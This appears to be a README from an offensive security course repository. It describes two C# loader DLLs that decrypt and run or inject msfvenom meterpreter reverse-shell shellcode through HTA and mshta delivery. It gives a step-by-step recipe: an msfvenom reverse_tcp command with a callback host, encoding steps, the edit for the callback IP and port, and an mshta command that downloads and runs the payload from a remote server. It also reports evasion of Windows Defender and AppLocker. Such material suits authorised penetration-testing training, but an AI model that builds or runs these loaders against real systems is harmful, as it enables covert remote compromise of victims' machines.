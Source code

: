 # Loaders - PEs

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `DLLRunner32` | DLL | Managed DLL that runs AES-Encrypted Shellcode in the loading process (`mshta.exe`). For use in HTA payloads. |
| `DLLInject64` | DLL | Managed DLL that injects AES-Encrypted `msfvenom` Shellcode into a target process. For use in HTA payloads. |


## DLLRunner32

C# source code project that creates a managed (.NET) DLL which contains AES encrypted shellcode. This is designed to be used in an HTA payload that has been crafted with the help of the `DotNetToJScript.exe` binary as taught in the course.

When Initialized, the DLL decrypts the shellcode, allocates RWX memory for it in the process trying to load the DLL, and points execution to it. The DN2JS program and its required DLL is included in this project as well. To construct the desired JavaScript, you can run the following in DLLRunner32 folder:
```bat
DotNetToJScript.exe DLLRunner32_DN2JS.dll --lang=Jscript -c DLLRunner32_DN2JS --ver=v4 -o DLLRunner32_DN2JS.js
```

### Notes

- The JavaScript output is designed to be delivered through an Internet Explorer client visiting the HTA page
  - Because of this, the shellcode and DLL should be 32-bit
- You will have to change the shellcode payload that is hardcoded into the DLL if wanting to use it, see [below instructions](#creating-new-payloads)
  - It uses an msfvenom payload that I created by default, but you can use **any shellcode**! Just run it through the steps below
- Tested on Windows Defender setup:
    ```
    AMEngineVersion                 : 1.1.18400.5
    AMProductVersion                : 4.18.2009.7
    AMRunningMode                   : Normal
    AMServiceEnabled                : True
    AMServiceVersion                : 4.18.2009.7
    AntispywareEnabled              : True
    AntispywareSignatureAge         : 867
    AntispywareSignatureLastUpdated : 8/22/2021 5:28:57 PM
    AntispywareSignatureVersion     : 1.347.247.0
    AntivirusEnabled                : True
    AntivirusSignatureAge           : 867
    AntivirusSignatureLastUpdated   : 8/22/2021 5:28:56 PM
    AntivirusSignatureVersion       : 1.347.247.0
    ```
    - The Windows Defender setup shown above flags the DotNetToJS setup code in the Users's Internet Explorer cache directory, but interestingly enough even if the cached file is deleted, the `mshta.exe` process that the shell is living in isn't killed. So, you get to keep the shell!
 
### Creating New Payloads

1. Create the payload. Example:
    - ```sh
      cd Shellcode-Encryption; msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.45.241 LPORT=53 -f raw > shellcode.raw
      ```
2. Create the template with `shellcode_encoder.py`. Example:
    - ```sh
      python shellcode_encoder.py -cs ./shellcode.raw blahBlah76 aes
      ```
3. Copy the key and encrypted shellcode into `DLLRunner32_DN2JS.cs`.
    - Keep in mind that the output template won't match up to the DLL code but you're smart enough to figure it out
    - Just copy/paste into the `key` and `buf` variables
4. Build the project
   - The project is integrated into the all-encompassing solution at `OSEP-Tools-v2/payloads/OSEP-Tools-v2.sln` 
    - Select this project, `Build` (it should be preset to x86-Release)
    - Default config will output to this project's `payload_dir/`
5. Create the JavaScript (on Windows). Example:
    - ```bat
      DotNetToJScript.exe DLLRunner32_DN2JS.dll --lang=Jscript -c DLLRunner32_DN2JS --ver=v4 -o DLLRunner32_DN2JS.js
      ```
6. Put into your HTA file
    - If you're debugging, you can add an `alert()` call in the JS's `debug` function


## DLLInject64

A combination of `DLLRunner32` and `clRunner` (in `Loaders_Shellcode`) projects. It injects `msfvenom windows/x64/meterpreter/reverse_tctp` shellcode into the specified 64-bit process.

This is basically the 64-bit brother of `DLLRunner32` that can't be delivered through IE, but is still very useful for bypassing default AppLocker rules. The `mshta.exe` triggering program is in the System32 folder which is whitelisted by default.

### Notes

- This **IS NOT** designed to be delivered through IE like DLLRunner32, rather you're supposed to load it with `mshta.exe`
  - The shellcode and DLL is 64-bit, if triggered through 32-bit IE, it will fail
- You will have to change the IP,PORT, & TGT_PROC arguments see [below instructions](#usage)
- Tested on Windows Defender setup:
    ```
    AMEngineVersion                 : 1.1.18400.5
    AMProductVersion                : 4.18.2009.7
    AMRunningMode                   : Normal
    AMServiceEnabled                : True
    AMServiceVersion                : 4.18.2009.7
    AntispywareEnabled              : True
    AntispywareSignatureAge         : 867
    AntispywareSignatureLastUpdated : 8/22/2021 5:28:57 PM
    AntispywareSignatureVersion     : 1.347.247.0
    AntivirusEnabled                : True
    AntivirusSignatureAge           : 867
    AntivirusSignatureLastUpdated   : 8/22/2021 5:28:56 PM
    AntivirusSignatureVersion       : 1.347.247.0
    ```
    - The Windows Defender setup shown above flags the DotNetToJS setup code in the Users's Internet Explorer cache directory, but interestingly enough even if the cached file is deleted, the `mshta.exe` process that the shell is living in isn't killed. So, you get to keep the shell!

### Usage

1. Change the hardcoded callback IP, Port, and target injection process arguments
    - Easiest way is to just edit the following line towards the bottom of [DLLInject64_DN2JS.js](DLLInject64/payload_dir/DLLInject64_DN2JS.js)
    - ```js
      o.RunProcess("192.168.45.241", "53", "svchost");
      ```
2. Download and run with `mshta`:
   - ```bat
     mshta http://192.168.45.241/tmp/rev/DLLInject64_DN2JS.hta
     ```

